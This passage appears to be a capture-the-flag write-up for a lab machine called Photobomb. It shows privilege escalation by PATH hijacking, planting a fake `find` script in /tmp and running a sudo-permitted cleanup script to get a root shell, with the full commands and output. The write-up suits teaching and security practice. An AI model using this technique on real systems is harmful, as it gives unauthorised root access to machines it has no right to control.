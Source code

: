 On analysing, the cleaup.sh script we can see that there's a `path hijacking`. Here, all the binaries are referenced with the full path expcet `find`.
That means, bash will look for binaries in `$PATH` and find will run from `/usr/bin/find`.

```bash
wizard@photobomb:/tmp$ echo $PATH
/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin

wizard@photobomb:/tmp$ which find
/usr/bin/find
```

creating `find` file in `/tmp` and making it executable.
```bash
wizard@photobomb:/tmp$ pwd
/tmp
wizard@photobomb:/tmp$ cat find
#!/bin/bash

bash

wizard@photobomb:/tmp$ chmod +x find
```
now we can run cleanup.sh with sudo permission but set the PATH variable to /tmp and get a root shell.
```
wizard@photobomb:/tmp$ sudo PATH=/tmp:$PATH /opt/cleanup.sh
root@photobomb:/home/wizard/photobomb#
```

